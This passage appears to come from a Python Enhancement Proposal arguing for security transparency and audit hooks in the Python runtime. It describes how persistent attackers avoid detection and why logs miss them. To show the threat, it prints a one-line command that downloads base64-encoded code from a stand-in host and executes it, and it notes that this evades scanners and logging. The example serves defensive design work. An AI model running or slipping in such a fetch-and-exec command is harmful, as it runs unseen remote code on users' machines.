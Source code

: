 The first infected machines may not be the final target and may not
require special privileges. For example, an APT that is established as a
non-administrative user on a developer's machine may have the ability to
spread to production machines through normal deployment channels. It is
common for APTs to persist on as many machines as possible, with sheer
weight of presence making them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their
tracks, the biggest barrier to detection is a lack of insight. System
administrators with large networks rely on distributed logs to
understand what their machines are doing, but logs are often filtered to
show only error conditions. APTs that are attempting to avoid detection
will rarely generate errors or abnormal events. Reviewing normal
operation logs involves a significant amount of effort, though work is
underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that
are already installed on the target machines, since log messages from
these tools are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the
existence of APTs or methods and mitigations that do not apply to this
PEP. For further information about the field, we recommend reading or
watching the resources listed under [Further Reading](#further-reading).

Python is a particularly interesting tool for attackers due to its
prevalence on server and developer machines, its ability to execute
arbitrary code provided as data (as opposed to native binaries), and its
complete lack of internal auditing. This allows attackers to download,
decrypt, and execute malicious code with a single command:

    python -c "import urllib.request, base64;
        exec(base64.b64decode(
            urllib.request.urlopen('http://my-exploit/py.b64')
        ).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being
written to disk (base64 is often sufficient to bypass these checks). It
also bypasses protections such as file access control lists or
permissions (no file access occurs), approved application lists
(assuming Python has been approved for other uses), and automated
auditing or logging (assuming Python is allowed to access the internet
or access another machine on the local network from which to obtain its
payload).

General consensus among the security community is that totally
preventing attacks is infeasible and defenders should assume that they
will often detect attacks only after they have succeeded. This is known
as the \"assume breach\" mindset.[^1] In this scenario, protections such
as sandboxing and input validation have already failed, and the
important task is detection, tracking, and eventual removal of the
malicious code. To this end, the primary feature required from Python is
security transparency: the ability to see what operations the Python
runtime is performing that may indicate anomalous or malicious use.
Preventing such use is valuable, but secondary to the need to know that
it is occurring.


[^1]: Assume Breach Mindset, <http://asian-power.com/node/11144>
[^2]: PowerShell Loves the Blue Team, also known as Scripting Security
[^3]: <https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>
[^4]: <https://aka.ms/deviceguard>
[^5]: Antimalware Scan Interface,
[^6]: Persistent Zone Identifiers,
[^7]: Event tracing,
[^8]: <https://www.gnupg.org/>
[^9]: <https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>
[^10]: <http://www.trustedbsd.org/openbsm.html>
[^11]: <https://linux.die.net/man/3/syslog>
[^12]: <http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>
[^13]: SELinux access decisions
[^14]: <http://www.trustedbsd.org/openbsm.html>
[^15]: <https://linux.die.net/man/3/syslog>
[^16]: Event tracing,
[^17]: <https://linux.die.net/man/3/syslog>
[^18]: <https://aka.ms/deviceguard>
[^19]: Event tracing,
[^20]: <http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>
[^21]: <https://aka.ms/deviceguard>
[^22]: The failure of pysandbox <https://lwn.net/Articles/574215/>